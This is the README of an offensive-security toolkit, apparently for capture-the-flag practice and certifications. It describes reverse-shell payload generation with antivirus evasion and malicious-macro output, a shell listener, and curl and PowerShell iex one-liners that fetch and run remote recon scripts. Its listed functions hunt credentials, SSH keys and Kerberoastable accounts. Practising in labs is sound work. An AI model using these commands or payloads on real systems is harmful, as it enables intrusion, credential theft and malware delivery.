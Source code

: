 # CTF support tools

> ⚠️ under development

A set of tools that can be used individually or by web interface to help resolve ctfs and pass certifications

![image](https://github.com/user-attachments/assets/047294b3-7c16-4c26-9a19-7dfd61fef423)


- toolpy to download tools
- Shellpy to generate payloads for reverse shells, optionally obfuscated to evade antivirus and in macro format for malicious documents
  (Shellpy can be found here --> https://github.com/KermitPurple96/Shellpy)
- shell.py to receive a reverse shell
- recon.ps1 to assist in the windows privilege escalation process
- recon.sh to assist in the linux privilege escalation process

## Install
```bash
git clone https://github.com/KermitPurple96/CTF-toolkit
cd CTF-toolkit
python3 -m venv .venv
source .venv/bin/activate
pip install pwn flask netifaces watchdog
flask run --host=0.0.0.0 --port=5002 --no-debugger --no-reload
```
## Usage

1. toolpy
```bash
toolpy -d rubeus
```
![image](https://github.com/user-attachments/assets/a9d69157-f2e7-4659-8885-06eb56d6e8b6)

2. [Shellpy](https://github.com/KermitPurple96/Shellpy)
```bash
shellpy <ip> <port> -powercat --obfuscate --macro
```
![shell3](https://github.com/user-attachments/assets/9bb1efe9-bcaa-49b8-b99b-b865b758eefe)
3. Shell listener
```bash
listener <port>
```
![image](https://github.com/user-attachments/assets/9863b3e7-6d33-4ce4-8974-f2a598920f9c)


3. Load the script on Target Machine

For Linux
```bash
. <(curl 10.10.10.10/recon.sh)
```

For Windows
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))
```

Example funtions on windows:
```
PS> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))

     ___  __    ___   ___
    /___\/ _\  / __\ / _ \  _ __ ___  ___ ___  _ __
   //  //\ \  / /   / /_)/ | '__/ _ \/ __/ _ \| '_ \
  / \_// _\ \/ /___/ ___/  | | |  __/ (_| (_) | | | |
  \___/  \__/\____/\/      |_|  \___|\___\___/|_| |_|

========================================================
                                            DannyDB@~>

[*] Auxiliary Tools:
    - aux.upload [file]               : Upload files to HTTP server via POST
    - aux.download [file]             : Perform GET to retrieve files

[*] Auxiliary Recon:
    - recon.dateScan                  : Files modified between two dates
    - recon.dateLast                  : Files modified less than 15 minutes ago
    - recon.portscan <host> [1-1024]  : Perform port scanning
    - recon.pingscan 10.10.10.        : Perform ping scan of /24 subnet
    - recon.pspy                      : Similar to pspy script
    - recon.servInfo                  : Information abaut a server

[*] General Recon:
    - recon.sys                       : System information
    - recon.users                     : User information
    - recon.programs                  : Program information
    - recon.protections               : Protection information
    - recon.process                   : Process information
    - recon.networks                  : Network information
    - recon.acl                       : File permission information

[*] Privesc Recon:
    - priv.installElev                : AlwaysInstallElevated privilege
    - priv.serv.dir                   : Service directory privilege
    - priv.serv.reg                   : Service registry privilege
    - priv.serv.unq                   : Unquoted service privilege
    - priv.cred.files                 : Known credential files privilege
    - priv.cred.history               : Credential history privilege
    - priv.owned.files                : File owner privilege
    - priv.search.fname               : Credential in file name privilege
    - priv.search.fcontent            : Credential in file content privilege
    - priv.search.sshkeys             : SSH file privilege
    - priv.search.register            : Credential in registry privilege
    - priv.search.events              : Credential in events (Admin.) privilege
    - priv.autorun                    : Scheduled tasks privilege

[*] AD Recon:
    - ad.psremote                     : Remote PowerShell privilege
    - ad.computers                    : Domain computers privilege
    - ad.users                        : Domain users privilege
    - ad.user <user>                  : Information about a user
    - ad.listusers                    : List common names for bruteforce
    - ad.groups                       : Domain groups privilege
    - ad.group <group>                : Information about a group
    - ad.spn                          : Kerberoasting accounts
    - ad.asrep                        : AS-REP Roasting users privilege

```

